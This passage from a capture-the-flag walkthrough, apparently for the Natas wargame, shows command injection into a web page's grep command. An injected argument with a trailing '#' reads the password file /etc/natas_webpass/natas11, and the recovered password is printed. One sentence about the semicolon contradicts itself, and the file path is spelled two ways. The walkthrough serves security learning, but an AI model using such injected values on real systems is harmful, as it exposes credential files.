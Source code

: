 ```
$ grep -i $key dictionary.txt
```
Since we cannot use the semicolon to end the ```grep``` command, we may as well use it. `#` is not banned, so we can still comment out the end of the line. We are trying to get everything in the file ```/etc/natas_pass/natas11```, so we can specify [[:alnum:]] as the characters to search for. Our injected command becomes:
```shell
$ grep -i [[:alnum:]] /etc/natas_webpass/natas11 #dictionary.txt
```
And our output is ```U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK```.

